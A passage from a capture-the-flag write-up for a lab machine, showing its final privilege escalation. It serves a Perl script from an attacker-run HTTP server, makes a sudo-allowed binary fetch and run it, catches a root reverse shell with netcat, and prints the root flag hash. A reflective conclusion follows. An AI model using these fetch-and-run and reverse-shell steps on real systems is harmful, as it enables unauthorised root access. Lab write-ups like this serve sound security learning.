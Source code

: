```perl
    print "Content-Length: " . length($global_page) . "\r
Connection: close\r
Content-Type: text\/html\r\n\r\n" . $global_page;
}
```

We serve it up with `python -m http.server 8888`, and run netcat locally with `nc -lvnp 3322`.  Then, on the target machine, we run:

```bash
smorton@investigation:~$ sudo /usr/bin/binary http://10.10.14.33:8888 lDnxUysaQn
Running... 
Content-Length: 0
Connection: close
Content-Type: text/html
```

And, our reverse shell connects in, allowing us to read the root flag!:

```bash
nc -lvnp 3322
Listening on 0.0.0.0 3322
Connection received on 10.10.11.197 35636
 08:36:19 up 1 day,  3:02,  3 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
smorton  pts/1    10.10.14.54      04:26    3:50m  0.15s  0.15s -bash
smorton  pts/2    10.10.14.33      08:35    1.00s  0.09s  0.09s -bash
smorton  pts/0    10.10.14.33      05:46    1:51m  1.75s  1.63s python3 -m http.server 8888
Linux investigation 5.4.0-137-generic #154-Ubuntu SMP Thu Jan 5 17:03:22 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
uid=0(root) gid=0(root) groups=0(root)
/
apache: cannot set terminal process group (-1): Inappropriate ioctl for device
apache: no job control in this shell
root@investigation:~# cat root    
cat root.txt 
1ea4d12d7c9626e34f5031b7dd21d434
```

And we're done!

## Conclusion

An enjoyable machine combining a little forensics along with reverse engineering an ELF binary in order to understand and use its behaviour to privilege escalate to root.  Finding the password incorrectly entered in the user field (resulting in a credential leak) took considerable time, as here I was searching for known usernames in the username field, and not *other* strings.  Basically, I should have looked for the absence of known/meaningful usernames and instead looked for anomalies -- this meant searching was a little laborious and very much finding a needle in a haystack.  This was my first 'real' attempt at forensics, and I'm sure I have a lot to learn on the topic.

Reversing the binary was fun, if only to practice my skills at understanding how a C app compiles into assembly and subsequently machine code.  When in the mood, I actually find assembly moderately easy to understand despite first appearances.  I think if you understand a few instructions, and how a call stack is established, pointer references and a few basic concepts plus how they differ between 32-bit and 64-bit, the rest flows naturally and isn't too difficult to learn on the fly.

